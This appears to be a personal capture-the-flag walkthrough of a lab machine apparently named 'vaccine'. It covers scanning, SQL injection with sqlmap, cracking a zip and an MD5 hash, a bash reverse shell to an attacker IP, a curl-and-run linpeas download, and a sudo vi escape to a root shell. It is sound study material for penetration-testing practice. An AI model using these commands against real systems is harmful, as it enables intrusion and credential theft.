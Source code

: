 
# Nmap

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.129.95.174 -oN nmap.basic`


![[Pasted image 20250523221800.png]]

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.129.95.174`

This returned an interesting point. CSRF?
![[Pasted image 20250523223419.png]]


==Thoughts==: 
1. I see anonymous ftp is allowed and we have `backup.zip`
2. http server running php


## Let's look into anonymous ftp and backup.zip
-> We can get the backup.zip file with ftp, but we need a password from index.php, let's look into the webserver and see what we can find.

![[Pasted image 20250523222359.png]]
We have a login screen. Ideas 

- [x] fuff for directory discovery
- [ ] XSS?
- [x] SQLi -> sqlmap <- ==Seems like not==
- [ ] Command injection
- [ ] Are there any vulnerabilities is vsftp 3.0.3 ?
- [ ] CSRF? <- Possibly? Session fixation?

### ffuf:
`ffuf -w /opt/redteam/Assetnote/automated/httparchive_directories_1m_2024_05_28.txt -u http://10.129.95.174/FUZZ`

I found this page at this URL from ffuf:
`http://10.129.95.174/index.php/index/$$$call$$$/page/page`
![[Pasted image 20250523222916.png]]


==Thoughts==
1. We have a PHPSESSID, is there anyway we can abuse that?
2. What is this `$$$call$$$` thing?

# sqlmap

Save this file to ==req.txt==
![[Pasted image 20250523224516.png]]

Then run this ==sqlmap command==
`sqlmap -r req.txt --level=5 --risk=3 --batch --threads=4`

How to test a parameter directly:
==sqlmap -u "http://10.129.95.174/index.php/UV/$$$call$$$/submission/cover" --data="username=admin&password=test" -p username --batch==

## Try to crack zip with john

1. `zip2john protected.zip > zip.hash`
2. `john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt`
	1. The password is `741852963`

## What is in backup.zip?
1. Index.php!
![[Pasted image 20250523225733.png]]

==md5 hash above, let's try to crack it with hashcat==

![[Pasted image 20250523230118.png]]
What hash type should we try?

`hashcat hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

The password is ==qwerty789==

^^ These creds do not work for either ftp or ssh
## Let's login to the web page

![[Pasted image 20250523230619.png]]

- [ ] Can we abuse the search bar? Yes!

![[Pasted image 20250523230846.png]]

^^ what happens when a single quote is put into the search bar.

Let's feed that web request to sqlmap and see what it finds

`sqlmap -r req.txt --level=5 --risk=3 --batch --threads=4`

![[Pasted image 20250523231126.png]]


## Got an OS shell with sqlmap, let's see what we can do with that.
1. Start a Netcat listener: `nc -lvnp 4444`
2. With the sqlmap os-shell send a shell back to the listener: 
		`bash -c 'bash -i >& /dev/tcp/10.10.16.85/4444 0>&1'`
3. ==Send a reverse shell automatically with sqlmap:== [[Reverse Shell Upgrades]]
	 - `sqlmap -r req.txt --level=5 --risk=3 --batch --threads=4 --os-cmd="bash -c 'bash -i >& /dev/tcp/10.10.16.85/4444 0>&1'"`

## Uname -a:
'Linux vaccine 5.3.0-64-generic #58-Ubuntu SMP Fri Jul 10 19:33:51 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux'

## Look for 'user.txt':
`find / -name user.txt 2>/dev/null`

## Try to upload and run linpeas.sh: [[Linux Privilege Escalation]]
`curl http://10.10.16.85/linpeas.sh -o /tmp/linpeas.sh && chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh`

2. RUN linpeas and save to a file: 
	`./linpeas.sh | tee /tmp/linpeas-output.txt``

## Linpeas output:
![[Pasted image 20250526152212.png]]

^^ What is this vulnerability? 
https://ubuntu.com/security/CVE-2021-3560

^^ I tried it. It didn't work.

# How to get an interactive shell when a reverse shell is present: [[Reverse Shell Upgrades]]
1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. Ctrl-Z
3. stty raw -echo
4. fg
OR 
-> script /dev/null -c bash


## Search for postgres password:

==in /var/www/html/dashboard.php==
![[Pasted image 20250526154841.png]]Password: P@s5w0rd!

![[Pasted image 20250526155108.png]]

==We can execute vi with privs==

Once you execute: `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
You can execute `!bash` in vi and get a root shell.

![[Pasted image 20250526160158.png]]

